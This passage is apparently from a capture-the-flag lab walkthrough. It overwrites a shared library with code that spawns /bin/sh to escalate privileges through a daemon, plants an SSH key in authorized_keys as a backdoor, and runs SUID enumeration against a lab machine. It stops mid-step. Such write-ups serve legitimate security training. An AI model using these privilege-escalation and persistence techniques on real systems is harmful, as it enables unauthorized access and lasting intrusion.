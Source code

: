     #include <unistd.h>
    
    void _init() {
      execve("/bin/sh", NULL, NULL);
    }

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553816903989_image.png)


compile our new code over libpinksec.so

    gcc -fPIC -shared -nostartfiles -o /lib/libpinksec.so ~/bin/libpinksec.c

Execute `pinksecd` 

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553817150429_image.png)


we have escalated to “pinksecmanagement”

Lets, create another SSH doorway, that we’ll be able to quickly reconnect if anything were to happen.

local kali:

    ssh-keygen -t rsa -b 2048

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553817307577_image.png)


target create our .ssh/authorized_keys 


    mkdir /home/pinksecmanagement/.ssh
    echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC10iRBva9qAHYuq4kcOeomPEU792Ml7WnudvZnz/FvOb+1G8Xpu9xeXduynT+ECey2Y8m+OzBEzW35aUpTZolJ96BpjCmPh14xz6/VToB9NmI32VrfG5iPK5LLsfb3IiwIKninLfKf0sAL/O6iWb4gcT4vrX1s5c0OkphfuOPw/f6TtpTx1UANeoz7zTNEb0z0RnIZZgcQRdemDyV/9LupXiiiYmEN34qybqlyMRbSE/VxAt5iru/qfZrovkjSb6OxqTGo2Ac8LtqhP4c4WiGqaKIuxjZIFhfOd7yWkPwcRzhHAKKW3prrt5FLGc9bRBO8yIzq4l1Qod/j6cj7zcpb root@execatwill  > /home/pinksecmanagement/.ssh/authorized_keys

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553817734389_image.png)


Connect via ssh to “pinksecmanagement”

    ssh -i pinksecman pinksecmanagement@192.168.56.118 -p 5555

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553817813694_image.png)


Enumeration re-begins, we found a SUID bit before lets see if another exists

    find ./ -perm -4000

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553817975763_image.png)


`PSMCCLI` definitely stands out 

navigate to location:
